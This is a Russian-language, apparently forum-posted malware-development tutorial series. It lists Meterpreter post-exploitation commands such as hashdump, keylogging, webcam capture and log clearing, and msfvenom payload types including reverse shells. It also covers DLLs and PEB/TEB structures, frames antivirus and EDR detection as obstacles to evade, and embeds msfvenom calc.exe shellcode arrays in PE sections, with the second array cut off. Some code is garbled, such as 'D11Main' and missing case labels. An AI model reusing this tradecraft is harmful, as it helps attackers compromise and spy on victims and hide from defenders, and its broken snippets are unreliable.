- ps: Просмотр списка запущенных процессов.
- ipconfig: Получение информации о сетевых интерфейсах.
- route: Просмотр таблицы маршрутизации.
- Управление файловой системой:
- ls: Просмотр содержимого директории.
- cd: Изменение текущей директории.
- upload и download: Загрузка и скачивание файлов между вашей машиной и целевой системой.
- cat: Чтение содержимого файла.
- edit: Редактирование файла.
- rm: Удаление файла.
- Управление процессами:
- migrate PID: Перемещение Meterpreter в другой процесс (где PID — это ID процесса).
- kill: Убийство процесса.
- Управление сетью:
- portfwd: Настройка переадресации портов.
- netstat: Просмотр активных сетевых соединений.
- Подключение к системе:
- shell: Запуск командной оболочки на целевой системе.
- execute: Запуск команды или программы на целевой системе.
- Привилегии:
- getsystem: Попытка повысить привилегии до SYSTEM.
- hashdump: Выгрузка хэшей паролей из системы.
- clearev: Очистка журналов событий.
- Взаимодействие с экраном и вводом:
- screenshot: Получение скриншота рабочего стола.
- keyscan_start: Начало перехвата клавиатуры.
- keyscan_dump: Выгрузка собранных данных перехвата клавиатуры.
- keyscan_stop: Остановка перехвата клавиатуры.
- Управление аудио и видео:
- webcam_list: Список доступных камер.
- webcam_snap: Снимок с веб-камеры.
- record_mic: Запись звука с микрофона.
- Управление токенами и сессиями:
- use incognito: Загрузка расширения для управления токенами и выполнения действий от имени других пользователей.
- list_tokens -u: Перечисление доступных токенов пользователей.
- Работа с расширениями:
- load <extension_name>: Загрузка дополнительных модулей и расширений.
Чтобы получить полный список доступных команд в Meterpreter, введите help в сессии Meterpreter.
Вот некоторые типы шеллкодов, которые можно создать с помощью msvenom:
- Обратные оболочки (Reverse Shells): Эти пейлоуды устанавливают соединение с атакующим и предоставляют ему оболочку на атакуемой машине. Пример: windows/meterpreter/reverse_tcp.
- Привязанные оболочки (Bind Shells): Эти пейлоуды слушают входящие соединения на целевой машине и предоставляют оболочку, когда атакующий подключается. Пример: windows/meterpreter/bind_tcp.
- Пейлоуды для создания учетных записей: Создают новую учетную запись на целевой системе. Пример: windows/adduser.
- Командные пейлоуды: Выполняют определенную команду на целевой системе. Пример: cmd/unix/reverse_python.
- Пейлоуды для скачивания и выполнения: Скачивают и выполняют файл с определенного URL. Пример: windows/download_exec.
- Пейлоуды для выключения или перезагрузки: Пример: windows/shutdown.
- Metsvc (Meterpreter Service): Создает постоянный сервис Meterpreter на целевой системе.
- Payloads для различных платформ: msvenom поддерживает множество платформ, включая Windows, Linux, macOS, Android, и другие.
- Инъекции в память: Пейлоуды, которые могут быть инжектированы непосредственно в память и выполнены без записи на диск.
- Пейлоуды для обхода антивирусов: Некоторые пейлоуды могут быть созданы так, чтобы обходить определенные антивирусные решения или их характеристики.
- И многие другие...
Код:
msvenom --list payloadsДля создания конкретного шеллкода используйте команду в следующем формате:
Код:
msvenom -p [payload] [options]Где [payload] - это имя выбранного пейлоуда, а [options] - это различные параметры, такие как IP-адрес, порт, формат вывода и другие параметры, зависящие от выбранного пейлоуда.
Таким образом, msvenom предоставляет гибкие инструменты для создания разнообразных шеллкодов в зависимости от ваших потребностей.
Изучаем динамические библиотеки
В этой статье предлагаю рассмотреть создание динамических библиотек, в винде это всем наверное известные DLL.)
И .exe, и .dll файлы считаются исполняемыми файлами, в формате PE, сам PE уже описан много где, нет не времени не желание описывать архитектуру, если интересно всё в сети есть и очень разжованно.)
Что такое DLL?
DLL - это общие библиотеки исполняемых функций или данных, которые могут использоваться несколькими приложениями одновременно. Они используются для экспорта функций, которые будут использоваться процессом. В отличие от EXE файлов, DLL файлы не могут исполнять код самостоятельно. Вместо этого библиотеки DLL необходимо загрузить другими программами для выполнения кода.
Например функция createFile экспортирована из kernel32.dll, поэтому если процесс хочет вызвать эту функцию, ему сначала нужно загрузить kernel32.dll в свое адресное пространство.
Некоторые DLL автоматически загружаются в каждый процесс по умолчанию, так как эти DLL экспортируют функции, необходимые для правильного выполнения процесса.
Несколько примеров таких DLL: ntdll.dll, kernel32.dll и kernelbase.dll.
В PocessExplorer показанно какие dll загружены в процесс explorer.exe:

Системный Базовый Адрес DLL
ОС Windows использует системный базовый адрес DLL, чтобы загружать некоторые DLL по одному и тому же базовому адресу в виртуальном адресном пространстве всех процессов на данной машине для оптимизации использования памяти и улучшения производительности системы.
Следующее изображение показывает, как kernel32.dll загружается по одному и тому же адресу (0x7fff9fad0000) среди нескольких работающих процессов.
В такой ситуации кодовая область у всех процессов будет одна, но данные будут разные, у каждого процесса свои.

Зачем использовать DLL?
Есть несколько причин, почему DLL так часто используются в Windows:
- Модульность кода - вместо одного огромного исполняемого файла, содержащего всю функциональность, код делится на несколько независимых библиотек, каждая из которых фокусируется на конкретной функциональности. Модульность упрощает работу разработчиков во время разработки и отладки.
- Повторное использование кода - DLL способствуют повторному использованию кода, так как библиотеку можно вызывать из нескольких процессов.
- Эффективное использование памяти - когда несколько процессов нуждаются в одной и той же DLL, они могут экономить память, разделяя эту DLL, вместо того чтобы загружать ее в память процесса.
DLL могут по желанию указывать функцию точки входа, которая выполняет код, когда происходит определенная задача, например, когда процесс загружает библиотеку DLL.
Есть 4 возможности для вызова точки входа:
- Загрузка процессом DLL.
- Создание процессом нового потока.
- Нормальный выход потока.
- Выгрузка процессом DLL.
Код ниже показывает типичную структуру кода DLL.
Код:
BOOL APIENTRY D11Main(
HANDLE hModule, // Handle to DLL module
DWORD ul_reason_for_call, // Reason for calling function
LEVOID lpReserwved // Reserved
)
{
switch (ul_reason_for_call)
case DLL_PROCESS_ATTACH: //Load to process
// Do something here
break;
DLL_THREAD_ATTACH: // A a new thread.
// Do socmething here
break;
case DLL_THREAD_DETACH // А thread exits normally.
// Do something here
break;
case DLL_PROCESS_DETACH: // A process unloads the DLL.
// Do something here
break;
return TRUE;
}Экспорт функции
DLL-файлы могут экспортировать функции, которые могут быть использованы вызывающим приложением или процессом. Чтобы экспортировать функцию, она должна быть определена с использованием ключевых слов extern и __declspec(dllexport). Приведен ниже пример экспортированной функции HelloWorld.
C:
extern _ declspec(dllexport) void HelloWorld() {
// Function code here
}Динамическое связывание
Можно использовать WinAPI, такие как LoadLibrary, GetModuleHandle и GetProcAddress, чтобы импортировать функцию из DLL. Этот процесс называется динамическим связыванием.
Это метод загрузки и связывания кода (DLL) во время выполнения, а не связывания их на этапе компиляции с помощью компоновщика и таблицы адресов импорта.
Существует несколько преимуществ использования динамического связывания, их подробное описание можно найти в документации Microsoft.
В этом разделе рассматриваются шаги по загрузке DLL, получению дескриптора DLL, извлечению адреса экспортированной функции и последующему вызову этой функции.
Загрузка DLL
Вызов функции, например MessageBoxA, в приложении заставит ОС Windows загрузить DLL, экспортирующую функцию MessageBoxA, в адресное пространство памяти вызывающего процесса, в данном случае это user32.dll. Загрузка user32.dll была выполнена автоматически ОС при запуске процесса, а не кодом.
Однако в некоторых случаях, эта DLL может не быть загружена в память. Чтобы приложение могло вызвать функцию, ему сначала нужно получить дескриптор DLL, экспортирующий эту функцию. Для этого потребуется использовать функцию WinAPI LoadLibrary, как показано ниже.
Код:
HMODULE hModule = LoadLibraryA("sampleDLL.d11"); // hMedule now contain sampleDLL.dll's handleПолучение адреса функции
После того как DLL загружена в память и дескриптор получен, следующий шаг - это получение адреса функции. Это делается с помощью функции WinAPI GetProcAddress, которая принимает дескриптор DLL, экспортирующего функцию, и имя функции.
Код:
PVOID pHelloWorld = GetProcAddress(hModule, "HelloWorld");Вызов функции
После сохранения адреса HelloWorld в переменной pHelloWorld, следующим шагом является приведение типа этого адреса к указателю функции HelloWorld. Этот указатель на функцию требуется для вызова функции.
Код:
typedef void (WINAPI* HelloWorldFunctionPointer) ();
HelloWorldFunctionPointer HelloWorld = (HelloWorldFunctionPointer)pHelloWorld;
HelloWorld();Пример динамического связывания
Ниже представлен еще один простой пример динамического связывания, где вызывается MessageBoxA. Код предполагает, что user32.dll экспортирующая эту функцию не загружена в память. Напоминаю, что если DLL не загружена в память, для загрузки этой DLL в адресное пространство процесса требуется использование LoadLibrary.
Код:
typedef int (WINAPI* MessageBoxAFunctionPointer)(HWND, LPCSTR, LPCSTR, UINT);
MessageBoxAFunctionPointer pMessageBoxA = (MessageBoxAFunctionPointer)GetProcAddress(LoadLibrary("user32.dll"), "MessageBoxA");
if (pMessageBoxA) {
pMessageBoxA(NULL, "Текст MessageBox", "Заголовок MessageBox", 0);
}Указатели на функции
На протяжении оставшегося курса типы данных указателей на функции будут иметь именование, которое использует имя WinAPI с префиксом fp, что означает "указатель на функцию". Например, вышеуказанный тип данных MessageBoxAFunctionPointer будет представлен как fpMessageBoxA. Это используется для упрощения и повышения ясности на протяжении курса.
Rundll32.exe
Существует несколько способов запуска экспортированных функций без использования программного метода.
Одна из общеизвестных техник - использование бинарного файла rundll32.exe. Rundll32.exe - это встроенный бинарник Windows, который используется для запуска экспортированной функции DLL. Для запуска экспортированной функции используйте следующую команду:
Код:
rundll32.exe <имя_dll>, <экспортированная функция для запуска>Создание файла DLL с помощью Visual Studio
Чтобы создать файл DLL, запустите Visual Studio и создайте новый проект. Когда вам будут предложены шаблоны проектов, выберите опцию "Dynamic-Link Library (DLL)".

Далее будут сгенерированы шаблоны, в которых уже можно писать код (dllmain.cpp):

Предоставленный шаблон DLL поставляется с framework.h, pch.h и pch.cpp, которые известны как предварительно скомпилированные заголовки. Эти файлы используются для ускорения компиляции проекта для больших проектов. Вряд ли они понадобятся в этой ситуации, поэтому рекомендуется удалить эти файлы. Для этого выделите файл и нажмите клавишу удаления, затем выберите опцию "Удалить".


После удаления предварительно скомпилированных заголовков необходимо изменить настройки компилятора по умолчанию, чтобы подтвердить, что в проекте не следует использовать предварительно скомпилированные заголовки.

Перейдите к вкладке C/C++.
Измените параметр "Предварительно скомпилированный заголовок" на "Не использовать предварительно скомпилированные заголовки"и нажмите "Применить".

Наконец, можно изменить файл dllmain.cpp на dllmain.c. Это необходимо, если вы используете C вместо C++. Для компиляции программы выберите Сборка > Собрать решение, и DLL будет создан в папке Release или Debug, в зависимости от конфигурации компиляции.
Процессы Windows
В предыдущих версиях статей, было очень краткое ознакомление каких-то базовых вещей, без которых вообще проблематично вести разработку.
Понятно что этого недостаточно, но какое-то направление может дать.
Думаю это последняя статья, по теории и следующие статьи будут уже предметные, посвященные конкретно малвари...
Что такое процесс Windows?
Процесс Windows - это программа или приложение, выполняющееся на машине с Windows. Процесс может быть запущен как пользователем, так и самой системой. Процесс потребляет ресурсы, такие как память, дисковое пространство и процессорное время, чтобы выполнить задачу.
Потоки процесса
Процессы Windows состоят из одного или нескольких потоков, которые выполняются одновременно. Поток — это набор инструкций, которые могут выполняться независимо в рамках процесса. Потоки внутри процесса могут обмениваться данными. Потоки планируются к выполнению операционной системой и управляются в контексте процесса.
Память процесса
Процессы Windows также используют память для хранения данных и инструкций. Память выделяется для процесса при его создании, и объем выделенной памяти может устанавливаться самим процессом. Операционная система управляет памятью с использованием виртуальной и физической памяти. Виртуальная память позволяет операционной системе использовать больше памяти, чем физически доступно, создавая виртуальное адресное пространство, которое может быть доступно приложениям. Эти виртуальные адресные пространства разделены на "страницы", которые затем выделяются процессам.
Типы памяти
Процессы могут иметь разные типы памяти:
- Приватная память предназначена для одного процесса и не может быть поделена с другими процессами. Этот тип памяти используется для хранения данных, специфичных для процесса.
- Отображенная память может быть разделена между двумя или несколькими процессами. Она используется для обмена данными между процессами, например, общими библиотеками, общими сегментами памяти и общими файлами. Отображенная память видима для других процессов, но защищена от изменений другими процессами.
- Память образа содержит код и данные исполняемого файла. Она используется для хранения кода и данных, используемых процессом, таких как код программы, данные и ресурсы. Память образа часто связана с файлами DLL, загруженными в адресное пространство процесса.
Process Environment Block (PEB) - это структура данных в Windows, которая содержит информацию о процессе, такую как его параметры, информацию о запуске, информацию о выделенной куче, загруженные DLL и другое. Он используется операционной системой для хранения информации о запущенных процессах и загрузчиком Windows для запуска приложений. Также он хранит информацию о процессе, такую как идентификатор процесса (PID) и путь к исполняемому файлу.
Каждый созданный процесс имеет свою собственную структуру данных PEB, которая содержит свой собственный набор информации о нем.
Структура PEB
Структура PEB в C показана ниже. Зарезервированные члены этой структуры можно игнорировать.
C:
typedef struct _PEB {
BYTE Reserved1[2];
BYTE BeingDebugged;
BYTE Reserved2[1];
PVOID Reserved3[2];
PPEB_LDR_DATA Ldr;
PRTL_USER_PROCESS_PARAMETERS ProcessParameters;
PVOID Reserved4[3];
PVOID AtlThunkSListPtr;
PVOID Reserved5;
ULONG Reserved6;
PVOID Reserved7;
ULONG Reserved8;
ULONG AtlThunkSListPtr32;
PVOID Reserved9[45];
BYTE Reserved10[96];
PPS_POST_PROCESS_INIT_ROUTINE PostProcessInitRoutine;
BYTE Reserved11[128];
PVOID Reserved12[1];
ULONG SessionId;
} PEB, *PPEB;Незарезервированные члены объясняются ниже.
BeingDebugged
BeingDebugged - это флаг в структуре PEB, который указывает, отлаживается процесс или нет. Он устанавливается в 1 (TRUE), когда процесс отлаживается, и 0 (FALSE), когда он не отлаживается. Он используется загрузчиком Windows для определения, следует ли запускать приложение с подключенным отладчиком или нет.
Ldr
Ldr - это указатель на структуру PEB_LDR_DATA в PEB. Эта структура содержит информацию о модулях динамической библиотеки (DLL) процесса. Она включает в себя список загруженных в процесс DLL, базовый адрес каждой DLL и размер каждого модуля. Он используется загрузчиком Windows для отслеживания загруженных в процесс DLL. Структура PEB_LDR_DATA показана ниже.
C:
typedef struct _PEB_LDR_DATA {
BYTE Reserved1[8];
PVOID Reserved2[3];
LIST_ENTRY InMemoryOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;Ldr может быть использован для поиска базового адреса определенной DLL, а также для определения функций, находящихся в ее адресном пространстве. Это будет использоваться в будущих модулях для создания пользовательской версии GetModuleHandleA/W для дополнительной скрытности.
ProcessParameters
ProcessParameters - это структура данных в PEB. Она содержит параметры командной строки, переданные процессу при его создании. Загрузчик Windows добавляет эти параметры в структуру PEB процесса. ProcessParameters - это указатель на структуру RTL_USER_PROCESS_PARAMETERS, показанную ниже.
C:
typedef struct _RTL_USER_PROCESS_PARAMETERS {
BYTE Reserved1[116];
PVOID Reserved2[10];
UNICODE_STRING ImagePathName;
UNICODE_STRING CommandLine;
} RTL_USER_PROCESS_PARAMETERS, *PRTL_USER_PROCESS_PARAMETERS;ProcessParameters будет использоваться в будущих статьях для выполнения таких действий, как подмена командной строки.
AtlThunkSListPtr & AtlThunkSListPtr32
AtlThunkSListPtr и AtlThunkSListPtr32 используются модулем ATL (Active Template Library) для хранения указателя на связанный список функций преобразования. Функции преобразования используются для вызова функций, реализованных в другом адресном пространстве, они часто представляют функции, экспортируемые из файла DLL (Dynamic Link Library). Связанный список функций преобразования используется модулем ATL для управления процессом преобразования.
PostProcessInitRoutine
Поле PostProcessInitRoutine в структуре PEB используется для хранения указателя на функцию, которая вызывается операционной системой после завершения инициализации TLS (Thread Local Storage) для всех потоков в процессе. Эта функция может быть использована для выполнения любых дополнительных задач инициализации, необходимых для процесса.
TLS и обратные вызовы TLS будут рассмотрены подробнее позже, когда это потребуется.
SessionId
SessionId в PEB - это уникальный идентификатор, присвоенный одной сессии. Он используется для отслеживания активности пользователя во время сессии.
Thread Environment Block (TEB)
Thread Environment Block (TEB) - это структура данных в Windows, которая хранит информацию о потоке. Он содержит окружение потока, контекст безопасности и другую связанную информацию. Он хранится в стеке потока и используется ядром Windows для управления потоками.
Структура TEB
Структура TEB в C показана ниже. Зарезервированные члены этой структуры можно игнорировать.
C:
typedef struct _TEB {
PVOID Reserved1[12];
PPEB ProcessEnvironmentBlock;
PVOID Reserved2[399];
BYTE Reserved3[1952];
PVOID TlsSlots[64];
BYTE Reserved4[8];
PVOID Reserved5[26];
PVOID ReservedForOle;
PVOID Reserved6[4];
PVOID TlsExpansionSlots;
} TEB, *PTEB;ProcessEnvironmentBlock (PEB)
Это указатель на структуру PEB, рассмотренную выше. PEB находится внутри Блока окружения потока (TEB) и используется для хранения информации о текущем выполняющемся процессе.
TlsSlots
Слоты TLS (Thread Local Storage) - это места в TEB, которые используются для хранения данных, специфичных для потока. Каждый поток в Windows имеет свой собственный TEB, и каждый TEB имеет набор слотов TLS. Приложения могут использовать эти слоты для хранения данных, специфичных для этого потока, таких как переменные, специфичные для потока, дескрипторы, специфичные для потока, состояния и так далее.
TlsExpansionSlots
Слоты расширения TLS в TEB - это набор указателей, используемых для хранения данных локального хранилища потока. Слоты расширения TLS зарезервированы для использования системными DLL.
Дескрипторы процесса и потока
В операционной системе Windows каждый процесс имеет уникальный идентификатор процесса или идентификатор процесса (PID), который операционная система присваивает при создании процесса. PIDs используются для различия одного работающего процесса от другого. Та же концепция применяется к работающему потоку, где работающий поток имеет уникальный идентификатор, который используется для его отличия от остальных существующих потоков (в любом процессе) в системе.
Эти идентификаторы можно использовать для открытия дескриптора процесса или потока с использованием нижеуказанных WinAPI:
- OpenProcess - открывает существующий дескриптор объекта процесса через его идентификатор.
- OpenThread - открывает существующий дескриптор объекта потока через его идентификатор.
Дескрипторы всегда следует закрывать после того, как они больше не требуются, чтобы избежать утечки дескрипторов. Это достигается с помощью вызова WinAPI CloseHandle.
Виды детектов
Введение
Системы безопасности используют несколько техник для обнаружения вредоносного программного обеспечения.
Важно понимать, какие методы системы безопасности используют для классификации ПО как вредоносное.
Статическое по сигнатуре обнаружение
Сигнатура - это ряд байтов или строк внутри вредоносного ПО, которые уникально его идентифицируют. Могут указываться и другие условия, такие как имена переменных и импортируемые функции. Как только система безопасности сканирует программу, она пытается сопоставить ее со списком известных правил. Эти правила должны быть предварительно созданы и загружены в систему безопасности.
YARA - это один из инструментов, который используют производители безопасности для создания правил обнаружения. Например, если шелл-код содержит последовательность байтов, которая начинается с ЕС 48 83 Е4 ЕО E8 СО 00 00 00 41 51 41 50 52 51, это можно использовать для обнаружения того, что полезная нагрузка является полезной нагрузкой Msfvenom's x64 exec. Тот же механизм обнаружения можно использовать для строк внутри файла.
Обнаружение по сигнатуре легко обойти, но это может занять много времени. Важно избегать жесткого кодирования значений в вредоносном ПО, которые можно использовать для уникальной идентификации реализации. Код, представленный на этом курсе, пытается избегать жесткого кодирования значений, которые могут быть закодированы, и вместо этого динамически извлекает или вычисляет значения.
Обнаружение по хешу
Обнаружение по хешу является подмножеством статического обнаружения по сигнатуре. Это очень простой метод обнаружения, и это самый быстрый и простой способ, которым система безопасности может обнаружить вредоносное ПО. Этот метод заключается в сохранении хешей (например, MD5, SHA256) известного вредоносного ПО в базе данных. Хеш файла вредоносного ПО будет сравниваться с базой данных хешей системы безопасности, чтобы увидеть, есть ли совпадение.
Уклонение от обнаружения по хешу чрезвычайно простое, хотя, вероятно, этого недостаточно само по себе. Изменяя хотя бы 1 байт в файле, хеш файла изменится для любого алгоритма хеширования, и, следовательно, файл будет иметь уникальный хеш файла.
Эвристическое обнаружение
Поскольку методы обнаружения по сигнатуре легко обходятся с незначительными изменениями в вредоносном файле, было введено эвристическое обнаружение, чтобы выявлять подозрительные характеристики, которые можно найти в неизвестных, новых и модифицированных версиях существующего вредоносного ПО. В зависимости от системы безопасности, эвристические модели могут состоять из одного или обоих следующих механизмов:
- Статический эвристический анализ - включает в себя декомпиляцию подозрительной программы и сравнение фрагментов кода с известным вредоносным ПО, которое уже известно и находится в базе данных эвристического анализа. Если определенный процент исходного кода соответствует чему-либо в базе данных эвристического анализа, программа помечается.
- Динамический эвристический анализ - программа помещается в виртуальную среду или песочницу, которая затем анализируется системой безопасности на наличие любых подозрительных действий.
Обнаружение в песочнице динамически анализирует поведение файла, выполняя его в изолированной среде. При выполнении файла система безопасности будет искать подозрительные действия или действия, которые классифицируются как вредоносные. Например, выделение памяти не является обязательно вредоносным действием, но выделение памяти, подключение к интернету для получения шелл-кода, запись шелл-кода в память и его выполнение в этой последовательности считается вредоносным поведением.
Разработчики вредоносного ПО встраивают техники обнаружения песочницы, чтобы определить среду песочницы. Если вредоносное ПО подтверждает, что оно выполняется в песочнице, тогда оно выполняет безвредный код, в противном случае - вредоносный код.
Обнаружение на основе поведения
Как только вредоносное ПО запускается, системы безопасности продолжают искать подозрительное поведение, совершаемое работающим процессом. Система безопасности будет искать подозрительные индикаторы, такие как загрузка DLL, вызов определенного API Windows и подключение к интернету. Как только подозрительное поведение обнаружено, система безопасности проводит сканирование процесса в памяти. Если процесс определен как вредоносный, он завершается.
Определенные действия могут завершить процесс немедленно без выполнения сканирования в памяти. Например, если вредоносное ПО выполняет инъекцию процесса в notepad.exe и подключается к интернету, это, вероятно, приведет к немедленному завершению процесса из-за высокой вероятности того, что это вредоносная активность.
Лучший способ избежать обнаружения на основе поведения - заставить процесс вести себя как можно более безвредно (например, избегать запуска дочернего процесса cmd.exe). Кроме того, сканирование в памяти можно обойти с помощью шифрования памяти. Это более сложная тема, которая будет обсуждаться в будущих модулях.
API-перехват
API-перехват - это техника, используемая системами безопасности, в основном EDR, для мониторинга процесса или выполнения кода в реальном времени на предмет вредоносного поведения. API-перехват работает путем перехвата часто злоупотребляемых API и затем анализа параметров этих API в реальном времени. Это хороший способ обнаружения, потому что это позволяет системе безопасности видеть содержимое, переданное API, после его дешифровки или расшифровки.
Это обнаружение считается комбинацией обнаружения в реальном времени и на основе поведения.
Диаграмма ниже показывает алгоритм API-перехвата.

Существует несколько способов обойти API-перехват, такие как отключение DLL и прямые системные вызовы. Эти темы будут рассмотрены в будущих модулях.
Проверка IAT
Одним из компонентов в структуре PE, является таблица адресов импорта или IAT. Чтобы кратко суммировать функциональность IAT, она содержит имена функций, которые используются в PE во время выполнения. Она также содержит библиотеки (DLL), которые экспортируют эти функции. Эта информация ценна для системы безопасности, так как она знает, какие WinAPI использует исполняемый файл.
Например, для шифрования файлов в ransomware вероятно, будет использовать криптографические функции и функции управления файлами. Когда система безопасности видит IAT, содержащую эти типы функций, таких как CreateFileaA/W, SetFilePointer, Read/WriteFile, CreateHash, CryptHashData, CryptGetHashParam, тогда или программа помечается, или на нее уделяется дополнительное внимание.
На изображении ниже показано, как инструмент dumpbin.exe используется для проверки IAT бинарного файла:

Один из способов обхода сканирования IAT - использование хеширования API, о котором будет рассказано в будущих модулях.
Ручной анализ
Несмотря на обход всех вышеупомянутых механизмов обнаружения, аналитики вредоносных программ все равно могут вручную анализировать вредоносное ПО.
Исследователь, хорошо знакомый с обратной инженерией вредоносных программ, вероятно, сможет обнаружить вредоносное ПО. Кроме того, системы безопасности часто отправляют копию подозрительных файлов в облако для дальнейшего анализа.
Разработчики вредоносного ПО могут реализовать техники против обратного анализа, чтобы усложнить процесс обратной инженерии. К некоторым техникам относятся обнаружение отладчика и обнаружение виртуализированной среды.
Куда класть нагрузку ?
В этой статье предлагаю поднять тему, куда и как класть нагрузку, он-же Payload.
Разработчик вредоносного ПО имеет несколько вариантов того, где в файле PE можно хранить полезную нагрузку. В зависимости от выбора полезная нагрузка будет находиться в разных разделах файла PE.
Полезные нагрузки могут храниться в одном из следующих разделов PE:
.data
.rdata
.text
.rsrc
Раздел .data
Раздел .data файла PE — это раздел исполняемого файла программы, который содержит инициализированные глобальные и статические переменные. Этот раздел доступен для чтения и записи, что делает его подходящим для зашифрованной полезной нагрузки, которая требует дешифровки во время выполнения.
Если полезная нагрузка является глобальной или локальной переменной, она будет сохранена в разделе .data в зависимости от настроек компилятора.
Приведенный ниже фрагмент кода показывает пример того, как полезная нагрузка хранится в разделе .data.
Код:
#include <Windows.h>#include <stdio.h>// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .data saved payload
unsigned char Data_RawData[] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};
int main() {
printf("[i] Data_RawData var : 0x%p \n", Data_RawData);
printf("[#] Press <Enter> To Quit ...");
getchar();
return 0;
}Изображение ниже показывает результат работы вышеуказанного фрагмента кода в xdbg.
Обратите внимание на несколько пунктов на изображении:
Раздел .data начинается с адреса 0x00007FF7B7603000.
Базовый адрес Data_RawData равен 0x00007FF7B7603040, что является смещением на 0x40 от раздела .data.

Раздел .rdata
Переменные, определенные с квалификатором const, записываются как константы. Такие переменные считаются данными "только для чтения". Буква "r" в .rdata указывает на это, и любая попытка изменить эти переменные приведет к нарушению доступа. Кроме того, в зависимости от компилятора и его настроек, разделы .data и .rdata могут быть объединены, или даже объединены с разделом .text.
Приведенный ниже фрагмент кода показывает пример того, как полезная нагрузка хранится в разделе .rdata. Код по сути будет таким же, как в предыдущем фрагменте кода, за исключением того, что переменная теперь предварена квалификатором const.
Код:
#include <Windows.h>#include <stdio.h>// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .rdata saved payload
const unsigned char Rdata_RawData[] = {
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
